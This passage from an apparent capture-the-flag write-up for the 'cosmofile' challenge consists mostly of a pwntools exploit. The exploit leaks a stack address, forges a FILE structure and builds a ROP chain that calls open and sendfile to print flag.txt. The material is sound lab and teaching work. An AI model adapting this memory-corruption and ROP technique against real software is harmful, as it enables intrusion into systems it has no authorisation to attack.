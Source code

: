 I tried getting a shell, but it didn't work on remote,
so I just opened the file and called `sendfile` to stdout to get the flag.
```py
sla(b"> ", b"1")
ru(b"of cosmofile:\n")
res = r(0x1000)
while len(res) < 0x1000:
    res += r(0x1000 - len(res))
stack_leak = u64(res[2728:2736]) - 0xec8
log.success(f"Stack leak: {stack_leak:#x}")

fp = FILE()
fp.oflags = 2
fp.beg = fp.end = 0
fp.fd = 0
fp.size = 0x2000
fp.bufmode = 0
fp.buf = stack_leak

sla(b"> ", b"7238770")
sa(b"secret...\n", fp.bytes())

sla(b"> ", b"1")

syscall_ret = 0x4111fa
pop_rsi_rdi_rbp = 0x40401d
pop_rdx_rbx_rbp = 0x427748
pop_rax = 0x40bdf5
flagtxt = stack_leak + 0xe8
mov_r10_rcx_syscall = 0x41710e
pop_rcx_5_oth = 0x4035fe

payload = flat(
    b"A" * 0x1000,
    pop_rsi_rdi_rbp, 0, flagtxt, 0,
    pop_rdx_rbx_rbp, 0, 0, 0,
    pop_rax, 2,
    syscall_ret,
    pop_rsi_rdi_rbp, 4, 1, 0,
    pop_rdx_rbx_rbp, 0, 0, 0,
    pop_rcx_5_oth, 0x50, 0, 0, 0, 0, 0,
    pop_rax, 0x28,
    mov_r10_rcx_syscall,
    b"flag.txt\x00"
)

sa(b"cosmofile:\n", payload)
```
Full exploit can be found here: [exploit.py](/blog/scripts/l3ak25/cosmofile.py)

### Notes++
